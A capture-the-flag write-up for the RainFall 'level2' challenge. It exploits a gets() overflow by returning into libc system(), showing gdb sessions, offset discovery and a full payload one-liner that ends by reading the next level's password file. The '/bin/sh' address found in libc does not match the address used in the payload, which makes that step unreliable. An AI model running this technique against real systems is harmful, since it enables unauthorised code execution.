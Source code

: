 As seen in the disassembled code, the program uses the gets() function to take user input :

```
gdb ./level2
disass p
```

but this time we also see that check ensures that the return address is not overwritten with an address on the stack:

```
0x80484fb <p+39>:	and    eax,0xb0000000
0x8048500 <p+44>:	cmp    eax,0xb0000000
```


We will bypass this check using a return-to-libc exploit. First, we find the address of the system function in libc:
```
$> gdb ./level2
gdb> b main
gdb> r
gdb> p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```
in little-endian : `\x60\xb0\xe6\xb7`

To get the "/bin/sh" string to pass in, were going to have find it inside of libc
```
(gdb) find &system, +9999999, "/bin/sh"
0xb7f8cc58
```
Next, we find the address of the ret instruction:
```
0x804853e <p+106>:	ret
```
We need to determine the offset at which the buffer overflows with the help of https://wiremask.eu/tools/buffer-overflow-pattern-generator/?:
```
level2@RainFall:~$ gdb ./level2 
(gdb) run
Starting program: /home/user/level2/level2 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()

```
We find that the buffer size is 80

Next, we need to construct the payload to exploit the vulnerability using the following format:
```
buffer + return address + system function address + fake return address + "/bin/sh" address from libc
```
```
$ python -c 'print "A" * 80 + "\x3e\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "4242" + "\x35\xf9\xff\xbf"' > /tmp/payload2
$ cat /tmp/payload2 - | ./level2
$ cat /home/user/level3/.pass

```
